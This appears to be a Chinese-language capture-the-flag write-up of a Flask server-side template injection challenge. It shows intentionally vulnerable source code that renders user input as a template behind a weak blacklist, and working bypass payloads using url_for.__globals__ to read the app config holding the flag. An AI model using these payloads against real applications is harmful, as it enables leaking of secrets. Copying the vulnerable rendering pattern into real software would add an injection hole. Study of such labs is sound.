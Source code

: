 ![](<./img/Pasted image 20221129143404.png>)

---
首页长这样
```python
import flask
import os

app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
	return open(__file__).read()

@app.route('/shrine/<path:shrine>')
def shrine(shrine):
	def safe_jinja(s):
		s = s.replace('(', '').replace(')', '')
		blacklist = ['config', 'self']
		return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

	return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
	app.run(debug=True)
```
显然是个`flask`的`SSTI`

```php
/shrine/{{1+1}}
```
> 2

`flag`保存在app.config里，所以只要访问`/shrine/{{config}}`就可以了啊哈哈（
```python
blacklist = ['config', 'self']
return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
```
并不行，这俩被替换成`None`了

网上给出的解决方案是利用`flask`的`url_for`函数以及`python`的`__globals__`魔法，获取`url_for`所在环境中的全局变量
```python
/shrine/{{url_for.__globals__}}
```
![](<./img/Pasted image 20221129160253.png>)

```python
/shrine/{{url_for.__globals__['current_app'].config}}
```

![](<./img/Pasted image 20221129160733.png>)

#Web #python #flask #SSTI #urlfor #globals #bypass 